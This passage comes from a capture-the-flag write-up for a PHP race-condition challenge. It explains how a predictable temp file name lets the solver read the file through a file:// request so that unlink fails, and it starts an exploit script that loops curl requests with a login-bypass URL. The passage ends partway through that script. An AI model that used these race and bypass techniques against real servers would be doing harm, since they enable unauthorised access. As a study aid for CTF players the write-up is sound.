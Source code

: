 Let's check the last condition:

```php
session_start();

$temp_name = sha1(md5(date("ms").@$_COOKIE['PHPSESSID']));
session_destroy();

file_put_contents($temp_name, "your_fake_flag");

if ($login_1 && $login_2) {
    if(@unlink($temp_name)) {
        die("Nope");
    }
    echo $flag;
}
```
In order to get the flag `unlink` needs to return `false`. Let's get line by line to fully understand what happens here.

- `$temp_name = sha1(md5(date("ms").@$_COOKIE['PHPSESSID']));`
    - This will be the name of the file that will be saved on disk
    - Is the result of SHA1 hashing the MD5 hash of `date("ms").@$_COOKIE['PHPSESSID']`
    - `date("ms")` will return the month and the second of the current time (e.g. `0956`, where `09` is the month and `56` the seconds)
    - `@$_COOKIE['PHPSESSID']` will return the value of the cookie named `PHPSESSID`. The `@` will surpress any error or warning message.
- `file_put_contents($temp_name, "your_fake_flag");`
    - Write `your_fake_flag` into a file that has as name the value from `$temp_name`
    - If the file doesn't exist it will be created
- `if(@unlink($temp_name)) { die("Nope"); }`
    - `unlink` will attempt to delete the file
    - If needs to fail in order to retrieve the flag

In order to make `unlink` call fail, we need to open the file for reading right when `unlink` will attempt to delete it. This is called a race condition and we need to exploit it. We can read the file using the form from the first server by providing as input `file:///var/www/html/file-name`, but we have a problem, we need to anticipate the name of the file. Let's look again at the line where the file name is made: `$temp_name = sha1(md5(date("ms").@$_COOKIE['PHPSESSID']));`

It is a little trick here. You could not guess the value of the session cookie, but here the cookie is not set inside the `$_COOKIE` object even if it the session was initialied. And since the `@` is used, any error or warning will be surpressed, we do not need to worry about it, it will be an empty string.

So, `sha1(md5(date("ms").@$_COOKIE['PHPSESSID']));` is equivalent with `sha1(md5(date("ms")))`. Now, we can work with this.

I used the script below in order to exploit the race condition, tackin into account all the considerations mentioned above:

```php
<?php
$url = 'http://race.darkarmy.xyz:8999/testhook.php';
$ch_flag_handler = [
    // url for bypassing the conditions related to "user" and "secret" 
    'handler' => 'http://localhost:8080/?user=admin1&secret[]=1'
];

$ch_flag_body = http_build_query($ch_flag_handler);

$flag = '';
// looping until we get the flag
// a race condition is somewhat not deterministic and requires multiple attempts
while(strpos($flag, 'dark') === false) { 
    // initialize curl object that will contain the flag
    $ch_flag = curl_init();
```